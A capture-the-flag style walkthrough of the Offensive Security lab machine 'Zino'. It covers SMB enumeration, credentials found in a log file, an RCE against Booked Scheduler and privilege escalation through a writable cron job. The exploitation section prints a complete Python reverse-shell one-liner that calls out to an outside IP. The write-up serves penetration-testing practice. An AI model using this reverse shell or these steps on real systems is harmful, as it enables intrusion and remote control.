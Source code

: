 # Blocky

Machine: [Zino](https://portal.offensive-security.com/labs/practice)\
Difficulty: Intermediate


## Enumeration
What ports are open?
![Results!](screenshots/1.png)

What are the versions of the services?
21/ftp - vsftpd 3.0.3
22/ssh - OpenSSH 7.9p1 Debian 10+deb10u2 
139/Samba smbd - 3.X - 4.X
445/netbios-ssn Samba smbd - 4.9.5-Debian 
3306/mysql - 
8003/http - Apache httpd 2.4.38




### Ftp
The version of ftp installed on this machine does not seem to be of any use to me. There is a vulnerability for this version of ftp, but it is related to denial of service (DOS). Next, I tried to login as 'anonymous/anonymous' but that did not work.

### Ssh
At first glance, this version does not appear to be vulnerable to anything. However, if I find any credentials then I might be able to use them via ssh to login.

### Smb
To enumerate smb I used a couple of tools. First, I used smbmap to list the shares on this machine. Second, I used smbclient to copy any files on the share I had permissions to read to my local machine.
<pre>smbmap -H 192.168.213.64</pre>

![Results!](screenshots/2.png)

<pre>smbclient //192.168.213.64/zino</pre>
![Results!](screenshots/3.png)

Surely enough the share had the local.txt flag for this machine! There are two other files that I thought had intersting information is the auth.log file and misc.log file. I know that there is a user named 'peter' but I was not able to ssh into the machine as peter...so maybe I might need to brute force the password but I will wait for that.
![Results!](screenshots/5.png)

In the misc.log file, there is a set of credentials admin/adminadmin. I tried to login as root via ssh and use the password that I just found, but I was not able to login.
![Results!](screenshots/6.png)

### Mysql
I don't know what version of MySql is running, but when I tried to login I kept getting this error below.
Error: ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/run/mysqld/mysqld.sock' (2)

### Http
I get redirected to a booked/web directory which seems to just be a login page. At the bottom of the login page, we can see the software name and version that the website is using.
![Results!](screenshots/7.png)

![Results!](screenshots/8.png)

A quick search online reveals that this version is vulnerable to RCE. Exploit [here](https://www.exploit-db.com/exploits/50594). This exploit does require a set of credentials, so I remember that I found another set of creds in the misc.log. Those credentials, admin/adminadmin, allow me to login to the page.

![Results!](screenshots/9.png)

## Exploitation
I was able to get a shell by follwoing this [exploit](https://www.exploit-db.com/exploits/50594), but I could not move out of the directory...I think this is because I have a shell as www-data. 
![Results!](screenshots/10.png)

I ended up following another example online for this exploit because I was unable to move out of the directory I originally got a shell in. I am not sure what is the reason for that, I assume it is the way I got a shell, but doing the exploit manually resolved this issue. I uploaded a php file that will allow rce and from there I will get a reverse shell by using the following command:
<pre>python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'</pre>

[Exploit tutorial](https://github.com/F-Masood/Booked-Scheduler-2.7.5---RCE-Without-MSF)

![Results!](screenshots/11.png)


### Flags


#### User/Local flag
![Results!](screenshots/4.png)

#### Root flag
To escalate my privileges, I found that there is a cron job running on this machine every 3 minutes and I have read,write,execute permissions on the file that is getting run. Based on this, I created a file on my personal machine with the same name and placed python code that will spawn me a shell. Next, I removed the original cron job file that was getting run with the one I created on my machine, then I setup a listener in another terminal to wait for the incoming connection.
![Results!](screenshots/12.png)


![Results!](screenshots/13.png)















